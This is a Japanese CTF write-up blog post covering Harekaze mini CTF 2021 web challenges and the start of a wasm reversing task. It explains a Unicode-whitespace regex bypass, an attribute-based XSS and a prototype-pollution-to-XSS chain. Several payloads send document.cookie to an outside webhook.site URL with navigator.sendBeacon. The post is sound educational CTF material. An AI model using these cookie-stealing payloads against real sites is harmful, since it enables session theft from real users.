12月24日に、チームHarekazeは[Harekaze mini CTF 2021](https://harekaze.com/ctf/2021-jp.html)を開催しました。登録チーム数は109チーム、1問以上を解いたチームは73チームと、短期決戦のCTFにもかかわらず多くの方にご参加いただきました。ありがとうございました。

[TeamHarekaze/harekaze-mini-ctf-2021-challenges-public](https://github.com/TeamHarekaze/harekaze-mini-ctf-2021-challenges-public)ですべての問題 (と問題サーバのソースコード) を公開していますので、当日参加されなかった/できなかった方もぜひ挑戦してみてください。復習にもぜひ。

問題の感想などについてのアンケートはまだ回答できますので、答えていただけるとうれしいです: [https://forms.gle/ZKzT3To6ZQDbqWTP7](https://forms.gle/ZKzT3To6ZQDbqWTP7)

また、今回Cryptoの問題を作問された[kurenaif](https://twitter.com/fwarashi)さんに解説配信をしていただいたので(ありがとうございます!!!!!!)、ぜひご視聴ください。

<iframe width="560" height="315" src="https://www.youtube.com/embed/veuw7nd78g8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

---

さて、この記事では私が出題した以下の7問について解説します。

- [[Web 201] Incomplete Blog](#web-201-incomplete-blog-21-solves)
- [[Web 322] Osoraku Secure Note](#web-322-osoraku-secure-note-7-solves)
- [[Web 500] Emoji Tsukuru](#web-500-emoji-tsukuru-1-solves)
- [[Rev 365] Let's read wasm](#rev-365-lets-read-wasm-5-solves)

## [Web 201] Incomplete Blog (21 solves)
> JavaScriptでブログを作ってみました。
> 
> ただ、まだ開発中ですし、有料記事のための課金システムも今頑張って作っているところで未完成です。なので、一部の有料にするつもりの記事は閲覧できません。ごめんなさい😉
> 
> ---
> 
> I made a blog with JavaScript. 
> 
> This blog is currently under development. I'm working hard to implement a payment system for reading premium content, but it is not ready yet. So, more than 9000 articles that will be premium content are not available so far. Sorry for the inconvenience😉

与えられたURLにアクセスしてみると、以下のように記事の一覧が表示されます。全部で9000個以上の記事があるそうですが、トップページに表示されている10個以外の記事を見るにはプレミアムユーザになる必要があると言われています。



トップページの個別の記事へのリンクを見てみると、リンク先は `/article/3` のようなパスになっていることがわかります。個別の記事のパスは `/article/(記事ID)` という構造になっているようですが、プレミアムユーザしか見れないという記事のIDにしてみるとどうでしょうか。

試しに `/article/100` にアクセスしてみると、以下のように `Access denied` と表示されました。なんとかしてこれらの記事を見れないでしょうか。



### ソースコードを読む
ソースコードを見ていきましょう。初期化処理を見てみると、`articles` という配列に記事の情報が含まれていることがわかります。1337というIDの記事にフラグが含まれており、これを取得できればよさそうです。

```javascript
const { flag } = require('./secret');

// generate articles
let articles = [];
for (let i = 0; i < 10000; i++) {
  articles.push({
    title: `Dummy article ${i}`,
    content: 'Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.'.trim()
  });
}
articles[1337] = {
  title: 'Flag',
  content: `Wow, how do you manage to read this article? Anyway, the flag is: <code>${flag}</code>`
};
```

個別の記事を表示する処理を見てみましょう。URLから与えられたIDを `parseInt` という関数によって数値に変換し、`articles.at(id)` と `Array.prototype.at` という関数によって記事の情報を取得しています。IDが10以上であれば `Access denied` と表示する処理があり、このためにIDが1337である記事はこのままでは読めません。

```javascript
app.get('/article/:id', async (request, reply) => {
  // id should not be negative 
  if (/^[\b\t\n\v\f\r \xa0]*-/.test(request.params.id)) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'Hacking attempt detected.'
    });
  }

  let id = parseInt(request.params.id, 10);

  // free users cannot read articles with id >9
  if (id > 9) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'You need to become a premium user to read this content.'
    });
  }

  const article = articles.at(id) ?? {
    title: 'Not found',
    content: 'The requested article was not found.'
  };

  return reply.view('article.ejs', article);
});
```

ところで、ここでは最初に `/^[\b\t\n\v\f\r \xa0]*-/` という正規表現によってIDをチェックしていますが、どういうことでしょうか。コメントによればIDが負数であるかチェックしているようですが、負数であればなにか問題があるのでしょうか。

その後でIDが引数として渡される `Array.prototype.at` について調べてみましょう。MDNによれば、引数が負数であれば逆に配列の末尾からのインデックスとして扱われることがわかります。例えば、`['a','b','c','d'].at(-3)` であれば後ろから3番目の `'b'` がその返り値になります。

> The at() method takes an integer value and returns the item at that index, allowing for positive and negative integers. **Negative integers count back from the last item in the array.**
> 
> https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/at

このような `Array.prototype.at` の挙動を考えてIDが負数であるか確認しているようですが、なんとかして正規表現によるチェックをバイパスできないでしょうか。 

### チェックをバイパスする
正規表現によるチェックでは、`[\b\t\n\v\f\r \xa0]*` と空白文字から始まっているか確認されています。MDNによれば [`parseInt` は先頭の空白文字を無視する](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/parseInt)そうですが、正規表現で指定されている文字のほかに空白文字として扱われるものはないでしょうか。

さらにMDNで調べてみると、次のような文字が空白文字として扱われることがわかります。

> [ECMAScript® 2015 言語仕様書](https://www.ecma-international.org/ecma-262/6.0/#sec-white-space)では、いくつかの Unicode コードポイントをホワイトスペースとして定めています。 `U+0009 CHARACTER TABULATION <TAB>`, `U+000B LINE TABULATION <VT>`, `U+000C FORM FEED <FF>`, `U+0020 SPACE <SP>`, `U+00A0 NO-BREAK SPACE <NBSP>`, `U+FEFF ZERO WIDTH NO-BREAK SPACE <ZWNBSP>` および その他のカテゴリ `“Zs” Unicode` の他の `“Separator, space” コードポイント <USP>` に属するすべての文字です。
> 
> https://developer.mozilla.org/ja/docs/Glossary/Whitespace#in_javascript

ということで、チェックに引っかからず、JavaScriptにおいて空白文字として扱われるという条件に当てはまる文字を探すスクリプトを書いて実行してみると、以下のようにたくさん見つかりました。

```
$ cat a.js
for (let i = 0; i < 0x10000; i++) {
  const c = String.fromCodePoint(i);
  if (/\p{Zs}/u.test(c) && !/[\b\t\n\v\f\r \xa0]/.test(c)) {
    console.log(i.toString(16));
  }
}
$ node a.js 
1680
2000
2001
2002
2003
2004
2005
2006
2007
2008
2009
200a
202f
205f
3000
```

この中から適当にU+2001を選び、`encodeURIComponent(String.fromCharCode(0x2001))` によってパーセントエンコーディングを施すと `%E2%80%81` になります。これに `-1` をくっつけて `/article/%E2%80%81-1` にアクセスすると、IDが9999の記事が表示されました。やったあ。



### フラグを得る
IDが1337の記事を表示する場合は `/article/%E2%80%81-8663` です。アクセスするとフラグが得られました。



```
HarekazeCTF{I_d0nt_kn0w_h0w_t0_m4ke_ctf_ch4llenges_t4sukete}
```

---

`Array.prototype.at` っていう関数があるんだ、へーと思って作った問題でした。`Array.prototype.at` って何? なぜ数値に変換した後にチェックせず、わざわざ正規表現を使っている? `parseInt` はどんな挙動をする? といったようにソースコードを読むといくつか疑問が生まれると思いますし、そこから色々と調べてほしいという思いも込めています。フラグは魂の叫びです。

## [Web 322] Osoraku Secure Note (7 solves)
> メモ帳を作ってみました。
> 
> ---
> 
> I made a note-taking service.

与えられたURLにアクセスしてみると、以下のようにメモが入力できるフォームが表示されます。



適当に `neko` と書いて投稿ボタンを押してみると、`/note/b2f2c337-e3ea-4a1c-9e05-bfaad5f7ab24` のようにランダムに生成されたUUIDを含むパスに遷移した上で、以下のように先ほど入力したメモが表示されました。

ページの下部に `Report this note` というボタンがありますが、これを押すとadminがそのメモを見に来てくれるようです。



トップページにも書かれているように、`del`, `em`, `strong` の3つの要素であればHTMLタグをメモに含めることができ、例えば `<del>del</del>, <em>em</em>, <strong>strong</strong>` のようなメモであれば以下のように表示されます。



もし `<a href="#">link</a>` のように許可されていないHTMLのタグを利用しようとすれば、`Prohibited HTML tags found!` と表示され弾かれてしまいます。



### ソースコードを読む
与えられたソースコードのうち、`server` ディレクトリはWebサーバの処理が、`worker` ディレクトリはadminがメモを見に来る際の処理が置かれています。まずは後者から見ていきましょう。

`worker/index.js` は以下のようなコードになっています。Cookieに `flag` というキーでフラグを設定した後に、報告されたメモを訪れるという処理になっています。

`httpOnly: false` とJavaScriptからもこのCookieにアクセスできる設定になっていることから、この問題でのゴールは `document.cookie` にアクセスすることであるとわかります。フォームへの入力やリンクのクリックといった処理はなく、ただ見るだけです。

```javascript
const crawl = async (id) => {
  const url = BASE_URL + '/note/' + id;
  console.log(`[+] Crawling started: ${url}`);

  const browser = await puppeteer.launch(browser_option);

  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
    await page.goto(url, {
      waitUntil: 'networkidle0',
      timeout: 3 * 1000,
    });
  } catch (e) {
    console.log('[-]', e);
  } finally {
    await page.close();
  }

  await browser.close();
};
```

Webサーバの方もソースコードを読んでいきましょう。メモの投稿処理を見てみると、以下のように[JSDOM](https://github.com/jsdom/jsdom)というライブラリでHTMLとしてメモをパースした上で、`isSafe` なる関数によって禁止されているHTMLタグが使われていないかチェックされています。

```javascript
app.post('/note', (req, reply) => {
  const { content } = req.body;
  if (typeof content !== 'string' || content.length === 0) {
    return reply.send({ status: 'error', message: 'No content is provided' });
  }

  const fragment = JSDOM.fragment(content);
  if (![...fragment.childNodes].every(isSafe)) {
    return reply.send({ status: 'error', message: 'Prohibited HTML tags found!' });
  }

  const id = uuidv4();
  notes.set(id, {
    timestamp: Date.now(), content
  });

  return reply.send({ status: 'ok', message: id });
});
```

`isSafe` は以下のような処理になっています。DOMツリーを再帰的に辿り、どのノードも名前 (`nodeName`) が `#text` (テキスト), `#document-fragment`, `BR`, `DEL`, `EM`, `STRONG` のいずれかであるかをチェックしています。なんとかしてこのチェックをバイパスできないでしょうか。

```javascript
// this check ensures that the input doesn't have dangerous HTML tags!
function isSafe(node) {
  if (![...node.childNodes].every(isSafe)) {
    return false;
  }

  if (!['#text', '#document-fragment', 'BR', 'DEL', 'EM', 'STRONG'].includes(node.nodeName)){
    return false;
  }

  return true;
}
```

### isSafeをバイパスする
`isSafe` をよく見ると、要素名だけチェックして属性についてはまったくチェックされていないことがわかります。`em` や `strong` のような要素を使いつつ、属性のみでJavaScriptコードの実行に持ち込むことはできないでしょうか。

`` のように[イベントハンドラ属性](https://developer.mozilla.org/ja/docs/Learn/JavaScript/Building_blocks/Events#%E3%82%A4%E3%83%B3%E3%83%A9%E3%82%A4%E3%83%B3%E3%82%A4%E3%83%99%E3%83%B3%E3%83%88%E3%83%8F%E3%83%B3%E3%83%89%E3%83%A9%E3%83%BC_%E2%80%94_%E4%BD%BF%E3%81%A3%E3%81%A1%E3%82%83%E3%81%A0%E3%82%81)を使えば、特定のイベントが発火したときに、属性値として設定したJavaScriptコードを実行させることができます。MDNで[イベントハンドラの一覧](https://developer.mozilla.org/ja/docs/Web/API/GlobalEventHandlers)を眺めていると色々と使えそうなものがあることがわかりますが、`em` のような要素でも発火させられるものとして、その要素にフォーカスが当たった際に発火する `onfocus` に注目します。

ユーザインタラクションなしに `onfocus` 属性で設定したJavaScriptコードを実行させる方法はいくつか考えられますが、今回は [`contenteditable`](https://developer.mozilla.org/ja/docs/Web/HTML/Global_attributes/contenteditable) でその要素を編集可能にし、さらに[`autofocus`](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/autofocus) で自動的にフォーカスが当たるようにする方法を使ってみましょう。

これらを組み合わせて、`<em onfocus="alert(123)" contenteditable autofocus>test</em>` という内容のメモを投稿します。これで、開いた途端にダイアログが表示されるメモができあがりました。

### フラグを得る
この問題の目的はadminのCookieを盗み取ることでした。`navigator.sendBeacon('(URL)',document.cookie)` や `(new Image).src='(URL)?' + document.cookie` のようなコードで `document.cookie` を自身の管理下にあるWebサーバに送信させましょう。そのためだけにわざわざWebサーバを立てるのも面倒なので、[Webhook.site](https://webhook.site)や[RequestBin](https://requestbin.net/)を使いましょう。

`<em onfocus="navigator.sendBeacon('https://webhook.site/…',document.cookie)" contenteditable autofocus>test</em>` という内容のメモを投稿し、adminに報告します。すると、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。



```
HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```

---

かんたんなXSS問を目指して作った問題でした。実は ` 絵文字を作りましょう。
> 
> ---
> 
> Let's make emojis.

与えられたURLにアクセスしてみると、以下のように絵文字を作成できるツールが表示されます。



`Save image` というボタンを押すと画像をPNG形式で保存できます。`Get URL to share` というボタンを押すと `http://localhost:54321?text0.x=83&text0.y=161&text0.size=64&…` というようなURLが表示されます。このURLを保存しておくことで、後で作成した絵文字の編集を再開できるようにするというものです。

そして、`Save with admin` というボタンを押すと、作成した絵文字をadminに共有することができます。

### ソースコードを読む
与えられたソースコードのうち、`server` ディレクトリはWebサーバの処理が、`worker` ディレクトリはadminがメモを見に来る際の処理が置かれています。まずは後者から見ていきましょう。

`worker/index.js` は以下のようなコードになっています。Osoraku Secure Noteと同様に、Cookieに `flag` というキーでフラグを設定した後に、共有された絵文字を閲覧するという処理になっています。

```javascript
const crawl = async (texts) => {
  const url = BASE_URL + '?' + texts;
  console.log(`[+] Crawling started: ${url}`);

  const browser = await puppeteer.launch(browser_option);

  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
    await page.goto(url, {
      waitUntil: 'networkidle0',
      timeout: 3 * 1000,
    });
  } catch (e) {
    console.log('[-]', e);
  } finally {
    await page.close();
  }

  await browser.close();
};
```

Webサーバのクライアント側のソースコードを読みます。`Get URL to share` で生成されたURLを見るとGETパラメータに絵文字の情報(色やテキストなど)が含まれていることがわかりますが、それらの情報は以下の `newTextMenu` という関数によって(画面の右側に表示されるような) `input` や `textarea` といった入力フォームに入力値として設定されています。

ここでは `innerHTML` が使われており一見XSSができそうに思えますが、残念ながら代入される文字列中の `${i}` はユーザからは操作できません。また、入力値の設定は `innerHTML` を使わず行われており、ここではXSSができなさそうです。

```javascript
// sorry for the ugly code!
function newTextMenu(i, text) {
  const div = document.createElement('div');
  div.innerHTML = `<h2>Text ${i}</h2>
  <div>
    <label>X: <input type="number" name="x" min="8" max="256" value="48"></label>
  </div>
  <div>
    <label>Y: <input type="number" name="y" min="8" max="256" value="160"></label>
  </div>
  <div>
    <label>Size: <input type="number" name="size" min="8" max="256" value="128"></label>
  </div>
  <div>
    <label>Color: <input type="color" name="color" value="#c13333"></label>
  </div>
  <div>
    <label for="text">Text:</label>
    <textarea name="text" cols="6" rows="5">:D</textarea>
  </div>
</div>`;

  [...div.querySelectorAll('input, textarea')].forEach(e => {
    e.value = text[e.name];
    e.addEventListener('change', () => {
      text[e.name] = e.value;
      render();
    }, false);
  });

  return div;
}
```

ほかに脆弱性がないか探していると、`parseQueryString` という関数が目に付きます。これは `?text0.a.b=123` のような複雑なGETパラメータを `{"text0":{"a":{"b":"123"}}}` のようなオブジェクトにパースするものです。

`__proto__` というプロパティ名が含まれていれば、その場で例外を発生させています。コメントによればPrototype Pollutionなる脆弱性を防ぐためとしていますが、どういうことでしょうか。

```javascript
// since query string is complex like `?text0.size=...`, 
// I need to implement a parser instead of using URLSearchParams...
function parseQueryString(query) {
  let res = {};

  for (const param of query.split('&')) {
    const [key, value] = param.split('=');
    const parts = key.split('.');

    let tmp = res;
    for (const part of parts.slice(0, -1)) {
      // I know there is a vulnerability called Prototype Pollution :)
      // so if suspicious property is found, raise an error
      if (part === '__proto__') {
        throw new Error('HACKING ATTEMPT DETECTED!');
      }

      if (!(part in tmp)) {
        tmp[part] = {};
      }
      tmp = tmp[part];
    }

    tmp[parts[parts.length - 1]] = decodeURIComponent(value);
  }
  
  return res;
}
```

### Prototype Pollutionとは
#### プロトタイプチェーン
JavaScriptにはプロトタイプチェーンという仕組みがあります。詳しい説明は割愛しますが([MDNのページ](https://developer.mozilla.org/ja/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)などを参照ください)、例えば以下のようなJavaScriptコードがあった場合、最終行のように `obj.abc` にアクセスしようとすると `obj.abc` → `B.prototype.abc` → `A.prototype.abc` → `Object.prototype.abc` という順番で捜索していき、もしどこかでプロパティが見つかればそれを返します。

```javascript
class A {}
class B extends A {}

const obj = new B;
console.log(obj.abc);
```

そのため、以下のように `Object.prototype.abc` に値を設定しておくと、`obj` 自身は `abc` というプロパティを持っていなくても `obj.abc` は `Object.prototype.abc` の値を返します。

```javascript
Object.prototype.abc = 123;
console.log(obj.abc); // => 123
```

#### Prototype Pollution
ECMAScriptの仕様には含まれていませんが、(Google Chromeを含む)多くのWebブラウザが実装している機能に [`Object.prototype.__proto__`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Object/proto) があります。上記の例では `obj.__proto__` は `B.prototype` ですし、`obj.__proto__.__proto__` は `A.prototype`、`obj.__proto__.__proto__.__proto__` は `Object.prototype` と、`__proto__` を使うことでプロパティのアクセス時に捜索されるオブジェクトにアクセスできます。

`parseQueryString` では、`a.b.c=hoge` というような文字列が与えられると `res.a={}`, `res.a.b={}`, `res.a.b.c='hoge'` と再帰的に代入する処理が行わます。もし `__proto__` というプロパティへのアクセスも許可すると、例えば `a.__proto__.b='fuga'` という文字列を与えると、これは `Object.prototype.b='abc'` に相当する処理が行われることになります。このような脆弱性をPrototype Pollutionと呼びます。

`__proto__` さえ塞げばPrototype Pollutionを防止できるかというと、[まったくそんなことはありません](https://knqyf263.hatenablog.com/entry/2020/08/09/234544)。`{}` というオブジェクトがあるとして、その `constructor` プロパティには `Object` が入っています。`({}).constructor.prototype` で `Object.prototype` にアクセスできてしまいます。

`parseQueryString` では `constructor` や `prototype` についてはチェックされていません。したがって、`a.constructor.prototype.abc=123` というような文字列を渡すと、`Object.prototype.abc='123'` 相当のことができるということになります。

### Prototype Pollutionを利用する
さて、このようにPrototype Pollutionができたところで、どう活用できるのでしょうか。活用方法のひとつに、Webアプリケーションで読み込まれているライブラリを把握し、それらに存在しているscript gadgetを使ってXSSに持ち込むというものがあります。

ライブラリの中には、もしPrototype PollutionがあればXSSやらなんやらに持ち込めてしまうような処理を含んでいるものもあります。このようなコードをscript gadgetと呼んだりします。

世の中には [`BlackFan/client-side-prototype-pollution`](https://github.com/BlackFan/client-side-prototype-pollution) という大変便利なリポジトリがあり、ここにはjQuery, Lodash, Google Closureなど様々なライブラリに存在しているgadgetがまとめられています。この問題で使われているライブラリに既知のgadgetがあるものがないか探してみると、(adminへの絵文字の共有時に使われる)[Google reCAPTCHA](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/recaptcha.md)が見つかりました。

これは `Object.prototype.srcdoc` に文字列を代入しておくと、Webアプリケーションに以下のような `iframe` が挿入されるときに、その `srcdoc` 属性として設定されてしまうというgadgetです。`<script>alert(123)</script>` のように `script` 要素を使えば、JavaScriptコードを実行させられます。



試しに `/?a.constructor.prototype.srcdoc=<script>alert(123)</script>` にアクセスしてみるとプロンプトが表示され、`alert(123)` というJavaScriptコードが実行されたことが確認できました。

### フラグを得る
adminのCookieを盗み出しましょう。DevToolsで以下のJavaScriptコードを実行しておき、`Share width admin!` を押すとadminにペイロードを含んだURLを共有するようにします。

```javascript
async function onSubmit(token) {
  const button = document.getElementById('report');

  const result = await (await fetch('/report', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({
      texts: `a.constructor.prototype.srcdoc=<script>navigator.sendBeacon('https://webhook.site/…',document.cookie)</script>`,
      token
    })
  })).text();
  button.textContent = result;
}
```

`Share width admin!` を押すと、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。



```
HarekazeCTF{pr0t0type_p0llut10n_1s_0ne_0f_my_f4v0r1te_vulner4b1l1t1es}
```

---

Webでボス問が欲しいなあと思って作った問題です。5チームぐらいは解くだろうと予想していたのですが、思いっきり外れました。各チームがどこらへんまで到達していたのかが気になるところです。

はじめはCSPの追加やらDOM Clobbering要素の追加やら、Osoraku Secure Noteに少し手を加えたような感じで作っていたのですが、どうもうまくいかずボツになりました。Kitto Secure Noteという問題名まで決めていたのに…。ということで、問題提出の締切数時間前から大急ぎで作り始めて出来上がったのがEmoji Tsukuruです。

## [Rev 365] Let's read wasm (5 solves)
> 文字列を入力すると、それがフラグかどうかチェックしてくれるアプリケーションを作りました。WebAssembly製です。
> 
> ---
> 
> I made an application that checks whether an input is the flag or not. It is made with WebAssembly.

添付ファイルとして `module.wasm` というWebAssemblyのバイナリと、それを読み込んで実行する `index.html` が与えられています。PHPであれば `php -S localhost:8000`、Pythonであれば `python -m http.server` のようなコマンドで適当にWebサーバを立てて開いてみると、以下のようにシンプルな入力フォームが表示されました。



`HarekazeCTF{hoge}` のように適当な文字列を入力して `Check!` ボタンを押すと、`Wrong...` と書かれたプロンプトが表示されました。なんとかして正しいフラグを探す必要がありそうです。

### wasmを読む
`index.html` のソースコードをチェックします。`Check!` ボタンを押したときに呼び出される `check` 関数を見てみると、入力された文字列をエンコードしてメモリに書き込んだ後に、WebAssembly側の `check` という関数を呼び出していることがわかります。その返り値がtruthyであれば、入力した文字列が正しかったということになります。

```javascript
      const response = await fetch('module.wasm');
      const bytes = await response.arrayBuffer();
      const { instance } = await WebAssembly.instantiate(bytes, {});
      const buffer = new Uint8Array(instance.exports.memory.buffer);

      function check(flag) {
        for (let i = 0; i < 64; i++) {
          buffer[i] = 0;
        }

        const textEncoder = new TextEncoder();
        const s = textEncoder.encode(flag);
        for (let i = 0; i < s.length; i++) {
          buffer[i] = s[i];
        }

        return instance.exports.check();
      }

      const button = document.getElementById('check');
      const input = document.getElementById('flag');
      button.addEventListener('click', () => {
        if (check(input.value)) {
          alert(`Congratulations! The flag is: ${input.value}`);
        } else {
          alert('Wrong...');
        }
      }, false);
```

wasmの方も見ていきましょう。Google ChromeであればDevToolsを開き、Sourcesタブをクリックしてwasmを選択すると、`module.wasm` を逆アセンブルした結果が表示されます。



#### $check
JavaScript側から呼び出されている `check` 関数から見ていきます。最初の `(local $i (;0;) i32) (local $result (;1;) i32)` はローカル変数の宣言であり、それぞれ `i32` という型の `$i`, `$result` というローカル変数がこの関数で使われることを意味します。

WebAssemblyはスタックベースのVMです。最初の2命令を見てみると、`i32.const 0` という命令で0をスタックにプッシュした後に、`local.set $result` という命令によってポップされ `$result` に0が代入されています。

ほかの部分を見てみると、`local.get $i` で `$i` という変数の値を、`i32.const 4` で4をスタックにプッシュして、`i32.shl` はそれらをポップして `$i` を4ビット左にシフトした結果をスタックにプッシュしています。こんな感じで、命令やら関数やらの引数や返り値はスタックを使って受け渡されています。

各命令は基本的に上から下へ順番に実行されていきますが、ループや条件分岐のために `block` や `br_if` といった命令も存在しています。

```
  (func $check (;2;) (export "check") (result i32)
